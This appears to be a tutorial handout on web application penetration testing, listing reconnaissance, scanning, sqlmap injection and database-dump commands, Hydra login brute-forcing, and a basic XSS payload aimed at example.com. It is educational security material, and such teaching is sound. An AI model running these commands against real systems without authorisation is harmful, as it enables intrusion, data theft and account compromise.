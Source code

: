 ```yaml
---
layout: article
title: "Web Application Penetration Testing | Hands-on intro"
date: 2025-02-18
categories: Web security
tags: security web tutorials penetration-testing best-practices
---
```


# **Web Application Penetration Testing: Essential Commands & Tools**  

## **1. Reconnaissance & Information Gathering**  

### **Find subdomains**  
```bash
subfinder -d example.com
amass enum -d example.com
```
  
### **Retrieve DNS records**  
```bash
nslookup example.com
dig example.com any
```
  
### **Gather HTTP headers**  
```bash
curl -I https://example.com
```
  
### **Discover hidden files & directories**  
```bash
gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt
ffuf -u https://example.com/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

---

## **2. Web Application Scanning**  

### **Scan for vulnerabilities (OWASP ZAP)**
```bash
zap-cli quick-scan -r -u https://example.com
```
  
### **Basic Nmap scan for open ports**
```bash
nmap -sC -sV example.com
```
  
### **Check for SQL Injection vulnerabilities**
```bash
sqlmap -u "https://example.com/index.php?id=1" --dbs
```

---

## **3. Intercept & Modify Requests (Burp Suite & Curl)**  

### **Use Curl to modify headers**  
```bash
curl -X GET "https://example.com" -H "User-Agent: admin"
```

### **Basic Burp Suite Workflow**
1. **Turn on Intercept** in **Proxy** tab.
2. Navigate to a form and capture the request.
3. Modify the request (e.g., test for XSS, SQLi, or broken authentication).
4. Forward or resend the modified request.

---

## **4. Exploiting Common Web Vulnerabilities**  

### **Test for XSS (Cross-Site Scripting)**  
Inject in input fields or URLs:
```html
<script>alert('XSS')</script>
```
Using `curl`:
```bash
curl -X POST "https://example.com/search" -d "query=<script>alert('XSS')</script>"
```

### **Test for IDOR (Insecure Direct Object References)**  
Modify numerical values in API requests:
```
https://example.com/profile?id=123  → Change to id=124
```

### **Brute-force login forms (Hydra)**
```bash
hydra -l admin -P rockyou.txt example.com http-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect"
```

---

## **5. Post-Exploitation & Reporting**  

### **Check for security misconfigurations**
```bash
nikto -h https://example.com
```

### **Dump database contents (If SQLi exists)**
```bash
sqlmap -u "https://example.com/index.php?id=1" --dump
```

### **Capture & analyze traffic (Wireshark)**
```bash
tshark -i wlan0 -w capture.pcap
```

---

## **6. Useful Online Resources**  
📌 [PortSwigger Web Security Academy](https://portswigger.net/web-security)  
📌 [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)  
📌 [HackTricks Cheat Sheet](https://book.hacktricks.xyz/)  
📌 [TryHackMe - Web Fundamentals](https://tryhackme.com/module/)  

---

This handout gives participants a solid reference for key web pentesting commands. Let me know if you need any modifications! 🚀